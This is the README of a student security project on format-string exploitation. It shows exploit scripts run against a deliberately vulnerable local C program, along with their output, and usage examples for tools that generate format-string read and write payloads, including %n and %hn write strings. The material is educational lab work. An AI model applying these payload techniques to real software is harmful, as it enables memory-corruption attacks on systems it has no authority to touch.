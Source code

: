 # BIT semestral project

## DISCLAIMER

This repository is for educational and informational purposes **only**!

## Contents
```
\_ exploit.py              # overwrite return address
\_ exploit-flag.py         # leak flag
\_ exploit-overflow.py     # exploit 
\_ format_string.c
\_ images/
\_ Makefile
\_ utilities/
    \_ payload_offset.py
    \_ payload_read.py
    \_ payload_write.py
    \_ payload_write_short.py 
```

## Requirements

Tested with Python **3.10**, **3.11** \
Python libraries: **pwntools**

## Usage

[?] - usage\
[C] - command\
[>] - output

Clone repository:\
`https://github.com/Sofurs/bit-semestral-project.git`\
`cd bit-semestral-project`

Compile vulnerable program:\
`make`

Run exploits:
```
[C] ./exploit.py
[>] ������ffdb1d2c3e8
[>] Thisisfromanunreachablefunction!
```

```
[C] ./exploit-flag.py
[>] �WV
[>] SecretFlagForBIT
```

```
[C] ./exploit-overflow.py
[>] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAThis is from an unreachable function!
```

Utility Functions:

```
[?] Usage: ./utilities/payload_offset.py {number of %x}
[C] ./utilities/payload_offset.py 5
[>] AAAABBBB %x %x %x %x %x %x 
```

```
[?] Usage: ./utilities/payload_read.py {memory address} {format character} {offset}
[?] Address format: 0xXXXXXXXX
[?] Format character: %s/%c/%x/%d/...
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_read.py 0x41424344 %s 6
[>] DCBA%7$s
```

```
[?] Uage: ./utilities/payload_write.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write.py 0x41424344 0x8040a020 6
[>] DCBAPADDECBAPADDFCBAPADDGCBA%08x%08x%08x%08x%08x%220x%n%128x%n%160x%n%64x%n
```

```
[?] Usage: ./utilities/payload_write_short.py {memory address} {value to write} {offset}
[?] Address and value format: 0xXXXXXXXX
[?] Offset - number of octets from $esp to start of buffer
[C] ./utilities/payload_write_short.py 0x41424344 0x8040a020 6
[>] DCBAFCBA%40984x%7$hn%57376x%8$hn
```

## Format String

![Format string basics](images/format-string.png)

![Stack frame and format string read/write](images/format-string-rw.png)

![Format string read/write howto](images/format-string-detail-rw.png)
